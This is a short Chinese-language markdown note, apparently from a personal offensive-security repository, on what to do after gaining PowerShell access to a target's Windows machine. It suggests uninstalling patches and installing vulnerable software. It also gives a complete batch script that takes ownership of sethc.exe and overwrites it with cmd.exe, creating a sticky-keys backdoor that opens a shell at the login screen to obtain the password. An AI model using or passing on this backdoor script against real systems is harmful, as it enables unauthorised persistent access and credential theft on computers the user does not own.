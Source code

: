 如果拿到了对方的powershell权限，那么可以做：

1. 卸载对方的补丁

2. 给对方安装一些有漏洞的软件（比如说ftp程序，输入法等等）【蓝奏云里的：小ftp，然后打开浏览器访问即可打开文件夹】

   ![image-20220110184953481](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220110184953481.png)

3. 考虑粘滞键漏洞：

   ```
   粘滞键地址在c:\windows\system32\sethc
   ```

   按5下shift键，即可召唤出来。

   

   桌面新建一个x.bat

   ```
   takeown /f c:\windows\system32\sethc.* /a /r /d y  
   # 获得其控制权
   cacls c:\windows\system32\sethc.exe /T /E /G system:F  
   # 修改控制权
   cacls c:\windows\system32\sethc.exe /T /E /G administrator:F
   # 修改控制权
   copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe /y
   # 替换sethc
   ```

   按5下shift键，即可召唤出修改后的cmd

   可在未登录下召唤出来，然后得到密码
